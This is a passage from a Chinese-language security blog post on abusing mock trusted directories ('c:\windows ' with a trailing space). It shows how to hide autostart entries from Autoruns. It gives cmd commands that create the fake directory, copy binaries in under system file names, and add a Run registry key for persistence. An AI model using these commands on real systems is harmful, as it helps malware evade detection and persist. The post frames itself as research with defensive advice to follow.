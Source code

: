 ```yaml
---
layout: post
title: 模拟可信目录的利用技巧扩展
---
```



## 0x00 前言
---

在上篇文章《通过模拟可信目录绕过UAC的利用分析》对通过模拟可信目录绕过UAC的方法进行了分析，本文将结合自己的经验，继续介绍模拟可信目录的另外三种利用技巧，最后给出防御建议

## 0x01 简介
---

本文将要介绍以下内容：

- 利用模拟可信目录绕过Autoruns
- 利用模拟可信目录欺骗ShimCache
- 利用模拟可信目录伪造正常的UAC弹框

## 0x02 利用模拟可信目录绕过Autoruns
---

绕过原理：

Autoruns默认不显示带有微软签名的文件，如果文件包含微软签名，默认不会显示在Autoruns面板

在Windows系统的启动位置写入模拟可信目录下的文件，由于被识别为正常带有微软签名的文件，默认将不会显示在Autoruns面板

经过测试，并不适用于所有的启动位置，具体测试如下：

创建模拟的可信目录，添加测试文件：

```
md "\\?\c:\windows "
md "\\?\c:\windows \system32"
copy c:\test\putty.exe "\\?\c:\windows \system32\notepad.exe"
copy c:\test\calc.dll "\\?\c:\windows \system32\atl.dll"
```

### 1、注册启动项`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

系统启动时启动文件`"C:\Windows \System32\notepad.exe"`，添加注册表的命令如下：

```
reg add hklm\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v RunTest /t REG_SZ /d "\"c:\windows \system32\notepad.exe\""
```

**注：**

`"`在cmd下转义后用`\"`表示
